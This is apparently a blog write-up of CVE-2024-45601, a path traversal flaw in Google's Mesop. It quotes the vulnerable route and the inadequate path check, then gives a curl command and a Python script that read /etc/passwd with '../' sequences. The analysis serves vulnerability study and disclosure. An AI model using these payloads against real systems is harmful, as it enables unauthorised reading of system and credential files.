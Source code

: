```yaml
---
layout: post
title: CVE-2024-45601 Path traversal
date: 2024-11-01
categories: ["1-Day-Analysis", "Python", "CVE-2024-45601"]
---
```


# Sumary

Path Traversal is vulnerability allow attacker able read any file on the system such as `/etc/passwd`. In the CVE-2024-45601, code use `os.path.join(os.getcwd(), path)` without any validate path, so this is lead to vulnerability path traversal. 

This is commit code for this vulnerability: https://github.com/google/mesop/commit/17fb769d6a91f0a8cbccfab18f64977b158a6a31#diff-af4fe7ee2dbe81359f65e957b13dd9ef25d3941cd3952ae6e1d9143e90bd4e1dL99

# Analysis Code

In the source with input `/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>` attacker can insert with url: `/{WEB_COMPONENTS_PATH_SEGMENT}/../../../../../../../../etc/passwd` then path = `../../../../../../../../etc/passwd`.

```
@app.route(f"/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>")
  def serve_web_components(path: str):
    if not is_file_path(path):
      raise MesopException("Unexpected request to " + path)
    serving_path = (
      get_runfile_location(path)
      if has_runfiles()
      else os.path.join(os.getcwd(), path)
    )
    return send_file_compressed(
      serving_path,
      disable_gzip_cache=disable_gzip_cache,
    )
```

After, code will call function `is_file_path(path)` to check path is valid or not. 

```
def is_file_path(path: str) -> bool:
    _, last_segment = os.path.split(path)
    return "." in last_segment
```

However, function `is_file_path` is just check `.` in the path, it is not prevent vulnerability path traversal. 

Handle path

```
serving_path = (
  get_runfile_location(path)
  if has_runfiles()
  else os.path.join(os.getcwd(), path)
)
```

```
def get_runfile_location(identifier: str) -> str:
    if runfiles.Create() is None:
        current_file_dir = os.path.dirname(__file__)
        return os.path.join(
            current_file_dir, "../" + identifier[len("mesop/mesop/"):]
        )
    return runfiles.Create().Rlocation(identifier)
```

Function `get_runfile_location(identifier)` will create path base on `identifier` but not check `../` in the path. 

If `has_runfiles()` return `True` function `get_runfile_location(identifier)` will create path. However, if return `False` serving_path will create path with `os.path.join(os.getcwd(), path)` and dont have any validate. 

After serving_path is created, file will send to user via `send_file_compressed` function. If file is sensitive data, user can be read sensitive information. 

# Exploit

To the exploit vulnerability path traversal, i can use curl or code python

With curl 

```
curl -X GET "http://localhost:5000/WEB_COMPONENTS_PATH_SEGMENT/../../../../../../etc/passwd"
```

With exploit via python code: 

```
import requests

# Application URL with the path traversal endpoint
base_url = "http://localhost:5000"  
path_segment = "WEB_COMPONENTS_PATH_SEGMENT" 

# Path traversal payload
payload_path = "../../../../../../etc/passwd"

# Create the full URL with the path traversal payload
exploit_url = f"{base_url}/{path_segment}/{payload_path}"

# Send the GET request to the server
try:
    response = requests.get(exploit_url)

    # Check and print the result
    if response.status_code == 200:
        print("Path traversal successful! Contents of /etc/passwd:")
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
        print("The application may have protected against path traversal.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred while sending the request: {e}")
```
